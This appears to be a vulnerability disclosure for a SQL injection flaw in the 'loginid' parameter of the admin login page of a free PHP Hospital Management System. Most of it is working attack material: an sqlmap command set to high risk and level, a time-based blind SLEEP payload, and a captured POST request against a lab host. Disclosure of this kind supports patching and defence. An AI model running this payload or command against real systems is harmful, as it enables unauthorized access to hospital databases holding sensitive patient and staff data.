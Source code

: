 **[Hospital-Management-System v1.0-SQLi-2](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![图片](https://user-images.githubusercontent.com/23294478/170827538-36a4617a-7ebd-49b1-bf3b-c1af5a059e9c.png)


### Description:
---
The vulnerability page is ```adminlogin.php```

```http://your-ip/hms/adminlogin.php```


Hospital-Management-System v1.0  

The ```loginid``` parameter in the ```adminlogin.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -r `Your post packet.txt` --random-agent --risk=3 --level=3 -dbs

[+] Payloads:

```
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=admin' AND (SELECT 9671 FROM (SELECT(SLEEP(5)))YbRn) AND 'GZcK'='GZcK&password=admin123&submit=Login
```

[+]POST request package

```
POST /hms/adminlogin.php HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.74.136
Connection: close
Referer: http://192.168.74.136/hms/adminlogin.php
Cookie: PHPSESSID=sbgmgg8q26ri1tmnqfv7poto25
Upgrade-Insecure-Requests: 1

loginid=admin&password=admin123&submit=Login
```
### In action:
---

![图片](https://user-images.githubusercontent.com/23294478/170827549-205cb2fe-19a7-4531-8f32-ec664eaa1f28.png)


### Proof and Exploit:
---

https://user-images.githubusercontent.com/23294478/170827564-6d3b7573-8f27-4ff4-af2e-cd787768f7ea.mp4

